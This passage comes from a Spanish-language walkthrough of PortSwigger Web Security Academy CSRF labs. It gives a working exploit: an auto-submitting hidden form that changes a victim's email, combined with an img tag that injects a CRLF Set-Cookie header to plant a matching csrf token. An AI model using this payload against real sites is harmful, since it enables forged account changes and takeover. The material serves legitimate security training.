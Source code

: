 Como podemos ver, actualiza la cookie **csrf** con el mismo valor que el parametro post **csrf**. Entonces, buscaremos el lugar donde podamos setear una cookie como en el ejemplo anterior.

![](img26.png)

Entonces, actualizamos nuestro exploit con los datos anteriores.

```
<form action="https://ac4d1f931e1c1463c0382f5f00be00d7.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="a&#64;a&#46;x" />
  <input type="hidden" name="csrf" value="k9asJRrYvzxwQgdeVx9o0mIhooucRpe0" />
  <input type="submit" value="Submit request" />
</form>
<img src="https://ac4d1f931e1c1463c0382f5f00be00d7.web-security-academy.net/?search=123%0dSet-Cookie:%20csrf=k9asJRrYvzxwQgdeVx9o0mIhooucRpe0;" onerror="document.forms[0].submit()">
```

Luego, actualizamos el exploit en el **exploit server** y lo enviamos a la victima.

![](img27.png)

## 7. Lab: CSRF where Referer validation depends on header being present

```
La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta bloquear las solicitudes entre dominios, pero tiene un respaldo inseguro.

Para resolver el laboratorio, use su servidor de explotación para alojar una página HTML que use un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```
